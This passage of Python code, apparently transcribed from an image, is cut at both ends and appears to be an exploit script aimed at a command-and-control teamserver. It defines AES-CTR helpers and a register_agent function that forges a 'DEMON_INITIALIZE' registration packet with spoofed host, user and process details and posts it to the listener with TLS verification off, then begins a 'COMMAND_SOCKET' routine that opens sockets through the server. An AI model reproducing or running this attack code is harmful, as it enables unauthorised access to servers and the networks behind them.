 ```

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext


def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)


def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")


def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"
```